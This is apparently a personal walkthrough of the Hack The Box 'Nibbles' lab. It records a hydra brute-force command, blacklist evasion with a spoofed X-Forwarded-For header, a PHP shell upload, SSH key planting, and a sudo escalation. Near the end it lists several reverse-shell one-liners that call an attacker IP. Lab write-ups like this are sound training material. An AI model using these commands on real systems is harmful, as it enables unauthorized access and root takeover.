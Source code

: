 Doing some initial recon we see that there is a directory /nibbleblog/ from html comments
from there start enumeration and also find that there are some exploits with nibbleblog

http://10.129.223.180/nibbleblog/update.php -> shows us the version we are working with
- Nibbleblog 4.0.3 "Coffee"
- Which is an arbitrary file upload

/admin lets you view the directory (uploader (copy) .php (copy) ???)

/nibbleblog/content/private/users.xml
- username is admin

https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
sudo hydra -l admin -P ./../../../tools/lists/rockyou.txt 10.129.237.80 http-post-form "/nibbleblog/admin.php:username=admin&password=^PASS^:security error"

we get blacklisted...so need to find a way out of it
http://10.129.237.80/nibbleblog/admin/boot/rules/4-blacklist.bit????

blacklisted, look for ways to get around it, maybe spoof request headers or something
if its on htb chances are there is a way to bypass

taking a look into ways they could be blacklisting us other than IP address (prob cant spoof that on htb vpn)
maybe we can spoof client headers:
 - https://security.stackexchange.com/questions/8721/benefits-of-identifying-clients-based-upon-the-x-forwarded-for-or-similar-http
looking at the first one we can do `X-Forwarded-For: 127.0.0.1`
That actually works!
- Now maybe there is a way to do this with hydra??

admin:nibbles works, so try the challenge name for both username and password
look at blogs to potentially find a faster way around things????

this blog made it pretty easy without having to really code anything
https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

upploaded a php shell

saw that it was using ssh, so tried a cheecky thing and uploaded my pub key to the server to try and ssh into it
`mkdir ~/.ssh`
`echo "[pub_key]" > ~/.ssh/authorized_keys`
`ssh -i .ssh/id_ed25519 nibbler@10.129.244.45`

got ssh access!
from there we unzip personal.zip, we go ahead and unzip it and get monitor.sh

taking a side look, we run `sudo -l` and we see that `(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh`

maybe there is a password somewhere else??
tried to download and run linpeas but no permission for that (looking back I prob forgot to chmod +x)

NOTE: Always look at the NOPASSWD when sudo -l
`echo "/bin/sh -i >& /dev/tcp/10.10.14.125/6000 0>&1" > monitor.sh`
`echo "nc -e /bin/sh 10.10.14.125 6000" > monitor.sh`
`echo "/bin/bash -l > /dev/tcp/10.10.14.125/6000 0<&1 2>&1" > monitor.sh`
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.125 6000 >/tmp/f" > monitor.sh`

Ran through a bunch of reverse shell commands till I got something to work (last one)
then executed the script with sudo
`sudo /home/nibbler/personal/stuff/monitor.sh`

setup the reverse shell listener, and you got it!